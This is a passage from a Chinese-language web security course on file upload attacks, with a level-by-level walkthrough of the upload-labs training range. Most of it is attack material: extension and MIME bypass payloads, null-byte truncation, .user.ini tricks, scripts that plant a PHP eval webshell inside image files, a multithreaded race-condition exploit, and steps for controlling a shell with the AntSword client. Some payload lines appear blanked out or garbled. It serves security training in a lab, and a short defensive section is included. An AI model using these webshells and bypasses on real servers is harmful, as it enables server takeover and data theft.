// 利用
URL: http://victim.com/index.php?page=uploads/shell.jpg
// → shell.jpg 作为 PHP 解析，触发后门
```

---

## 3.7 上传绕过流程图（完整决策树）


---

## 3.8 防御建议（开发视角）
```php
// 1. 后端必须校验
if (!in_array($ext, ['jpg', 'png', 'gif'])) {
    die('非法后缀');
}

// 2. 检查真实 MIME
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$mime = finfo_file($finfo, $tmp);
if (!in_array($mime, ['image/jpeg', 'image/png', 'image/gif'])) {
    die('非法类型');
}

// 3. 重新渲染图片（剥离恶意代码）
$img = imagecreatefromjpeg($tmp);
imagejpeg($img, 'uploads/'.random_name().'.jpg');

// 4. 重命名（关键！）
$new_name = bin2hex(random_bytes(16)).'.jpg';

// 5. 上传目录禁执行（Nginx 配置）
// location ~* /uploads/.*\.(php|phtml|phar)$ {
//     deny all;
// }

// 6. 不在 web 根目录
$save_path = '/data/uploads/';   // web 访问不到
// 通过 PHP 控制访问
```

---

## 3.9 课时 3 小结
| 中间件 | 经典漏洞 |
| --- | --- |
| Apache | 多后缀 / 换行（CVE-2017-15715） |
| Nginx | CGI 路径 / %00 |
| IIS 6.0 | 分号 / 目录 |
| IIS 7.0+ | CGI 路径 |
| 图片马 | cat 拼接 / exiftool / GIF89a |
| 激活 | 包含 / 解析 / .htaccess / .user.ini |

### 课间实操（20 min）
1. 用 Vulhub 复现 Nginx CGI 解析漏洞。
2. 制作三种图片马（cat 拼接 / exiftool / GIF89a）。
3. 用蚁剑连接一个已上传的 Webshell。

---

# 第 4 课时：upload-labs 通关实战
## 4.1 upload-labs 总览
| 关卡 | 检测类型 | 绕过技巧 |
| :---: | --- | --- |
| Pass-01 | 前端 JS | 禁 JS / Burp |
| Pass-02 | MIME | 改 Content-Type |
| Pass-03 | 黑名单（.php 等） | .phtml / .php3 |
| Pass-04 | 黑名单（含 .htaccess） | .user.ini |
| Pass-05 | 黑名单（大小写不敏感） | 大小写绕过 |
| Pass-06 | 黑名单（无 trim） | 末尾空格 |
| Pass-07 | 黑名单（无 deldot） | 末尾点 |
| Pass-08 | 黑名单（无 ::$DATA） | ::$DATA |
| Pass-09 | 黑名单（点+空格） | 点+空格+点 |
| Pass-10 | 双写 | 双写 |
| Pass-11 | %00 截断（GET） | %00 |
| Pass-12 | %00 截断（POST） | 0x00 |
| Pass-13 | Magic Number（getimagesize） | 图片马 |
| Pass-14 | Magic Number（getimagesize） | 图片马 |
| Pass-15 | Magic Number（exif） | 图片马 |
| Pass-16 | 二次渲染 | 条件竞争 / 复杂绕过 |
| Pass-17 | 条件竞争 | 并发 |
| Pass-18 | 条件竞争 / 重命名 | 并发 |
| Pass-19 | 路径截断 | pathinfo |
| Pass-20 | 数组绕过 | 数组参数 |


---

## 4.2 Pass-01：前端 JS 校验
**源码**：

```javascript
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (!/\.(jpg|png|jpeg|bmp|gif)$/.test(file)) {
        alert('禁止上传！');
        return false;
    }
}
```

**绕过**：Burp 抓包改 filename。

```plain
filename="shell.jpg"  →  filename="shell.php"
```

---

## 4.3 Pass-02：MIME 校验
**源码**：

```php
if (($_FILES['file']['type'] == 'image/jpeg') || 
    ($_FILES['file']['type'] == 'image/png') || 
    ($_FILES['file']['type'] == 'image/gif')) {
    move_uploaded_file(...);
}
```

**绕过**：Burp 改 Content-Type。

```plain
Content-Disposition: form-data; name="upload_file"; filename="shell.php"
Content-Type: application/x-php       ← 改成 image/jpeg
```

---

## 4.4 Pass-03：黑名单（.php 等）
**源码**：
```php
$deny_ext = ['.php', '.asp', '.aspx', '.jsp'];
```

**绕过**：用未列出的危险后缀。
```plain
shell.phtml
shell.php3
shell.php5
shell.phar
```

---

## 4.5 Pass-04：黑名单（含 .htaccess）
**源码**：黑名单很全，但**没禁 .user.ini**。

**绕过**：
```plain
1. 上传 .user.ini
   内容：auto_prepend_file=shell.jpg

2. 上传 shell.jpg（图片马）

3. 等 300 秒

4. 访问 /uploads/index.php（必须存在）
   → shell.jpg 被自动包含
```

---

## 4.6 Pass-05：大小写
**源码**：
```php
$deny_ext = ['.php', '.asp', ...];   // 没用 strtolower
$ext = strtolower($ext);              // 但是这里转了？看具体版本
```

某些版本：
```php
$deny_ext = ['.php'];                  // 大小写敏感
$ext = pathinfo($name, PATHINFO_EXTENSION);
if (in_array($ext, $deny_ext)) die();
```

**绕过**：`shell.PHP` / `shell.pHp`。

---

## 4.7 Pass-06：末尾空格
**源码**：黑名单但**没 trim**。

**绕过**：Burp 在 filename 末尾加空格。
```plain
filename="shell.php "    ← 末尾空格
```

> Windows 自动去空格 → 实际是 shell.php。

---

## 4.8 Pass-07：末尾点
**绕过**：
```plain
filename="shell.php."    ← 末尾点
```

Windows 自动去点 → 实际 shell.php。

---

## 4.9 Pass-08：::$DATA
**绕过**：
```plain
filename="shell.php::$DATA"
```

Windows NTFS 备用流 → 等同 shell.php。

---

## 4.10 Pass-09：点+空格+点
**源码**：删末尾点和空格，但只删一次。

**绕过**：

```plain
filename="shell.php. ."   ← 先去点 → "shell.php. " → 再去空格 → "shell.php." → 再去点 → shell.php
                              实际后端处理：
                              deldot() 删末尾点和空格 → "shell.php"（因为 ". " 都被删）
                              但若顺序不对 → 绕过
```

---

## 4.11 Pass-10：双写
**源码**：
```php
$name = str_ireplace(['.php'], '', $name);
```

**绕过**：
```plain
shell.pphphp
↓ str_ireplace 删中间 php
shell.php
```

---

## 4.12 Pass-11：%00 截断（GET）
**源码**：
```php
$ext = $_GET['save_path'];
move_uploaded_file($tmp, $ext.'/'.$rand);
```

**绕过**：
```plain
URL: ?save_path=../uploads/shell.php%00
```

实际保存路径：`../uploads/shell.php\0/随机名` → 截断 → `../uploads/shell.php`。

> ⚠️ 需 PHP < 5.3.4。

---

## 4.13 Pass-12：%00 截断（POST）
**绕过**：Burp 抓包，在路径字段后**加 0x00**（不是字符串 %00）。

```plain
Content-Disposition: form-data; name="save_path"

../uploads/shell.php[这里 Burp Hex 视图改 00]
```

> 💡 **技巧**：Burp 改包时，在 shell.php 后选中字符 → 右键 → Insert byte → 输入 00。

---

## 4.14 Pass-13/14/15：图片马
**源码**：用 `getimagesize` / `exif_imagetype` 检测。

**绕过**：
```bash
# Pass-13 (getimagesize)
copy /b cat.jpg + shell.php shell.jpg     # Windows
cat cat.jpg shell.php > shell.jpg         # Linux

# Pass-14 (exif_imagetype) 同上
# Pass-15 (getimagesize + 二次渲染) - 复杂
```

**激活**：必须配合文件包含漏洞。

upload-labs 同环境有 `include.php`：

```php
// include.php
<?php include($_GET['page']); ?>

URL: http://localhost:8008/include.php?page=uploads/shell.jpg
```

---

## 4.15 Pass-16：二次渲染
**源码**：
```php
$im = imagecreatefromjpeg($uploaded);
imagejpeg($im, $path);     // 重新生成图片！
```

**问题**：重新渲染会**剥离图片末尾的恶意代码**。

**绕过**（GD 库二次渲染绕过）：
```bash
# 用专门工具生成
# 工具：https://github.com/hylinux1111/upload-labs-bypass
# 原理：把 PHP 代码写到 PNG 的 IDAT 块里，二次渲染不删
```

或用 GIF（不剥离）：
```bash
# GIF 二次渲染绕过
# 把一句话写到 GIF 的特定帧
```

---

## 4.16 Pass-17：条件竞争
**源码**：
```php
move_uploaded_file($tmp, $path);    // 先存
if (!check_image($path)) {           // 后检查
    unlink($path);
}
```

**绕过**：
```php
// 上传的文件 shell.php 内容：
<?php
                                                               ?>');
?>
```

**步骤**：
1. Burp Intruder 设置上传请求，**100 线程并发**
2. 同时另一个 Intruder 不断访问 `/uploads/shell.php`
3. 只要访问时文件还在 → 触发 PHP → 写入 permanent.php
```bash
# Python 多线程版
python3 race_exploit.py http://target.com/uploads/shell.php 100
```

---

## 4.17 Pass-18：条件竞争 / 重命名
类似 17，但涉及重命名逻辑。

---

## 4.18 Pass-19：路径截断
**源码**：
```php
$ext = pathinfo($_POST['name'], PATHINFO_EXTENSION);
$fname = pathinfo($_POST['name'], PATHINFO_FILENAME);
move_uploaded_file($tmp, 'uploads/'.$fname.'.'.$ext);
```

**绕过**：name 控制，但被分隔为 fname + ext。
```plain
name=shell.php/.
→ fname=shell.php
→ ext=空（因为以 / 结尾）
→ 保存为 uploads/shell.php./  → 但实际是 shell.php
```

---

## 4.19 Pass-20：数组绕过
**源码**：
```php
$name = $_POST['name'];
$ext = end(explode('.', $name));
if (!in_array($ext, $allow)) die();
$name = reset(explode('.', $name));
move_uploaded_file($tmp, 'uploads/'.$name);
```

**绕过**：传数组！
```plain
POST: name[0]=shell.php&name[1]=jpg&name[2]=png&name[3]=jpg
```

逻辑混乱：
+ `end()` 取最后一个 → 'jpg' → 通过校验
+ `reset()` 取第一个 → 'shell.php' → 保存为 shell.php

---

## 4.20 配合 Burp 完整流程


---

## 4.21 蚁剑连接 Webshell
### 4.21.1 安装蚁剑
[GitHub 下载](https://github.com/AntSwordProject/antSword)

### 4.21.2 连接步骤
1. 打开蚁剑 → 右上角"添加数据"
2. URL：`http://localhost:8008/uploads/shell.php`
3. 密码：`cmd`（对应木马的 POST 参数）
4. 编码：`base64`
5. 测试连接 → 成功

### 4.21.3 蚁剑核心功能
| 功能 | 用途 |
| --- | --- |
| 文件管理 | 上传/下载/编辑 |
| 虚拟终端 | 命令执行 |
| 数据库管理 | 操作 MySQL |
| 备忘录 | 保存笔记 |


---

## 4.22 毕业 Lab：完成 upload-labs 全 20 关
### 任务清单
每关产出：

+ 漏洞类型（黑/白名单 / MIME / 等）
+ 绕过原理
+ 完整 Payload（含 Burp 改包）
+ 截图证据（上传成功 + 蚁剑连接）

### 加分项
+ 用 Vulhub 复现 Apache / Nginx / IIS 解析漏洞
+ 写一个 PHP 二次渲染绕过的 PNG 图片马
+ 用 Python 写一个条件竞争利用脚本

---

## 4.23 课时 4 小结
| 关键 | 一句话 |
| --- | --- |
| 20 关 | 覆盖所有上传绕过类型 |
| 工具 | Burp + 蚁剑 |
| 必背 | 黑白名单 + 中间件 + 图片马 |
| 复杂 | 二次渲染 / 条件竞争 |


---

# 附录 A：绕过技巧速查
## 黑名单绕过（10 种）
| 技巧 | 示例 |
| --- | --- |
| 大小写 | `shell.PHP` `shell.pHp` |
| 双写 | `shell.pphphp` |
| 末尾空格 | `shell.php ` |
| 末尾点 | `shell.php.` |
| ::$DATA | `shell.php::$DATA` |
| 点+空格+点 | `shell.php. .` |
| 替代后缀 | `shell.phtml` `shell.php3` `shell.phar` |
| .htaccess | 见 2.5 |
| .user.ini | 见 2.6 |
| %00 截断 | `shell.php%00.jpg` |


## 白名单绕过（5 种）
| 技巧 | 示例 |
| --- | --- |
| MIME 假装 | Content-Type: image/jpeg |
| Magic Number | 文件头 `FF D8 FF` |
| 图片马 | cat cat.jpg shell.php > shell.jpg |
| exif 隐写 | exiftool -Comment='...' |
| 解析漏洞 | 见课时 3 |


---

# 附录 B：危险后缀清单
## PHP 危险后缀
```plain
.php .php3 .php4 .php5 .php7
.phtml .pht .phar .inc
.user.ini .htaccess
```

## Java 危险后缀
```plain
.jsp .jspx .jspf
.do .action
.war
```

## .NET 危险后缀
```plain
.aspx .ascx .ashx .asmx
.config .soap
```

## ASP 危险后缀
```plain
.asp .asa .cer .cdx .aspx
```

## Python 危险后缀
```plain
.py .pyc .pyw .cgi .fcgi
```

---

# 附录 C：常见 Magic Number
```plain
JPEG  FF D8 FF
PNG   89 50 4E 47 0D 0A 1A 0A
GIF   47 49 46 38 (GIF8)
BMP   42 4D (BM)
PDF   25 50 44 46 (%PDF)
ZIP   50 4B 03 04 (PK)
RAR   52 61 72 21
GZIP  1F 8B
TAR   不固定
DOC   D0 CF 11 E0 (OLE2)
DOCX  50 4B 03 04 (实际是 ZIP)
EXE   4D 5A (MZ)
CLASS CA FE BA BE
```

---

# 附录 D：图片马制作脚本
## Bash 一键脚本
```bash
#!/bin/bash
# make_shell_img.sh
# 用法：./make_shell_img.sh <source.jpg> <output.jpg> <password>

SRC=$1
OUT=$2
PASS=${3:-cmd}

cat "$SRC" > "$OUT"
echo -n "<?php @eval(\$_POST[\"$PASS\"]);?>" >> "$OUT"

echo "[+] 图片马生成完成：$OUT"
echo "[+] 密码：$PASS"
file "$OUT"
```

## Python 版（含 EXIF 注入）
```python
#!/usr/bin/env python3
# make_shell_img.py
import sys

def make_jpeg(output, password='cmd'):
    header = b'\xFF\xD8\xFF\xE0\x00\x10JFIF'
    payload = f"<?php @eval($_POST['{password}']);?>".encode()
    with open(output, 'wb') as f:
        f.write(header)
        f.write(payload)
    print(f"[+] 生成 JPEG 图片马：{output}")

def make_gif(output, password='cmd'):
    header = b'GIF89a'
    payload = f"<?php @eval($_POST['{password}']);?>".encode()
    with open(output, 'wb') as f:
        f.write(header)
        f.write(payload)
    print(f"[+] 生成 GIF 图片马：{output}")

if __name__ == '__main__':
    make_jpeg('shell.jpg')
    make_gif('shell.gif')
```

## 竞争条件利用脚本
```python
#!/usr/bin/env python3
# race_exploit.py
import threading, requests

URL_UPLOAD = 'http://localhost:8008/Pass-17/'
URL_ACCESS = 'http://localhost:8008/uploads/shell.php'

def upload():
    while True:
        requests.post(URL_UPLOAD, files={
            'upload_file': ('shell.php', '<?php                                                     ?>");?>', 'image/jpeg')
        }, data={'submit': '上传'})

def access():
    while True:
        r = requests.get(URL_ACCESS)
        if 'p.php' in r.text:
            print('[+] 触发成功！')
            return

if __name__ == '__main__':
    for _ in range(10):
        threading.Thread(target=upload, daemon=True).start()
    for _ in range(10):
        threading.Thread(target=access, daemon=True).start()
    
    input('回车退出...')
```

---

# 课后作业（提交截止：下次课前）
## 一、基础题（30 分）
1. 默写文件上传的 5 道防线及其强度。
2. 解释 .htaccess 与 .user.ini 的区别及各自适用场景。
3. 解释 Apache 多后缀解析漏洞的原理。
4. 解释 IIS 6.0 的两个解析漏洞（分号 / 目录）。
5. 图片马如何"激活"？列出 4 种方式。

## 二、实操题（50 分）
1. 完成 upload-labs 至少 **15 关**（含必做）：

| 必做 | 关卡 |
| :---: | :---: |
| ✓ | Pass-01（前端） |
| ✓ | Pass-02（MIME） |
| ✓ | Pass-04（.user.ini） |
| ✓ | Pass-08（::$DATA） |
| ✓ | Pass-11（%00 GET） |
| ✓ | Pass-13（图片马） |
| ✓ | Pass-17（竞争） |
| ✓ | Pass-20（数组绕过） |


2. 用 Vulhub 复现 **Nginx CGI 解析漏洞**。
3. 制作 3 种图片马（cat / exiftool / GIF89a）。
4. 用蚁剑连接任意一个上传成功的 Webshell。
5. 写一个条件竞争 Python 利用脚本。

## 三、报告题（20 分）
任选一关产出完整漏洞报告，含：
+ 漏洞描述
+ 源码分析（贴出关键代码）
+ 绕过原理
+ 完整 Payload + 截图
+ 防御建议（PHP 代码示例）

## 课程回顾（必背 30 条）
1. 文件上传本质 = 文件被当作代码解析
2. 危害 = Webshell → 服务器沦陷
3. 五道防线：前端 → MIME → 后缀 → 内容 → 重命名
4. 前端校验可随便绕（Burp 改包）
5. MIME 来自前端，可控
6. 黑名单易绕，白名单难绕
7. **重命名 + 目录禁执行 = 根本防御**
8. 一句话木马：`<?php @eval($_POST['cmd']); ?>`
9. 后门工具：蚁剑 / 冰蝎 / 哥斯拉
10. 黑名单绕过 10 种技巧
11. 大小写：shell.PHP / shell.pHp
12. 双写：shell.pphphp
13. 末尾空格/点：shell.php. / shell.php (空格)
14. ::$DATA 是 Windows NTFS 备用流
15. %00 截断需 PHP < 5.3.4
16. .htaccess 仅 Apache，目录级配置
17. .user.ini 任何 PHP 都行，需目录有 .php
18. 图片马 = 图片 + PHP 代码
19. Magic Number = 文件类型特征值
20. JPEG 头：FF D8 FF，GIF 头：GIF89a
21. 图片马需借助包含/解析激活
22. Apache 多后缀：shell.php.xxx
23. CVE-2017-15715：换行符绕过
24. Nginx CGI：shell.jpg/x.php
25. IIS 6.0 分号：shell.asp;.jpg
26. IIS 6.0 目录：shell.asp/1.jpg
27. IIS 7.0+ CGI：同 Nginx
28. 条件竞争 = move 和 unlink 之间窗口
29. 二次渲染绕过 = 把代码写到 IDAT
30. **授权是底线，靶场是家园**


